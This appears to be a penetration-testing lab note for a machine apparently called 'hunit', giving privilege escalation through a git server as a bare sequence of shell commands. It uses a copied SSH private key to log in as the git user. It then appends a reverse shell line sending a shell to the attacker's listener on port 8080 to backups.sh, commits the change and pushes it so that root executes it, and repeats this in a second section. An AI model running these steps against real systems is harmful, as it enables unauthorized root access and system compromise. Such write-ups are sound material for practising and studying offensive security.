 #### Git user exists

A git user appears in the /home directory.

Let's copy the .ssh/id_rsa file to kali, then use it to ssh in.

```bash - kali
chmod 600 id_rsa
```

```bash - kali
ssh git@$TARGET -i id_rsa -p 22
```

Now that we have confirmed this works, we can use GIT SSH to clone the repository down to kali.

```bash - kali
GIT_SSH_COMMAND='ssh -i id_rsa -p 22' git clone git@$TARGET:/git-server
```


```bash - kali
cd git-server
```

Configure our Git identity.
```bash - kali
git config --global user.name "kali"
```

```bash - kali
git config --global user.email "kali@kali.(none)"
```

Echo in our reverse shell.
```bash - kali
echo "sh -i >& /dev/tcp/$KALI/8080 0>&1" >> backups.sh 
```

```bash - kali
chmod +x backups.sh
```

Now we add and commit changes.
```bash - target
git add -A
```

```bash - target
git commit -m "pwn"
```


```bash - kali
sudo rlwrap -cAr nc -lvnp 8080
```

```bash - kali
GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git push origin master
```


---
---

#### Have commit privs


```bash - target
git clone file://git-server
```

```bash - target
ls -la git-server
```

```bash - target
cd git-server
```

```bash - target
git log
```

```bash - target
cat backup.sh
```

```bash - target
git config --global user.name "<USER>"
```

>git config --global user.name "dademola"

```bash - target
git config --global user.email "<USER>@<HOSTNAME>.(none)"
```

>git config --global user.email "dademola@hunit.(none)"

Run a test command for root execution.
```bash - target
echo "sh -i >& /dev/tcp/$KALI/8080 0>&1" >> backups.sh 
```

```bash - target
chmod +x backups.sh 
```

```bash - target
git add -A
```

```bash - target
git commit -m "pwn"
```

If this method fails, try [[13._Git Server#Git user exists]]

```bash - kali
sudo rlwrap -cAr nc -lvnp 8080
```

```bash - target
git push origin master
```

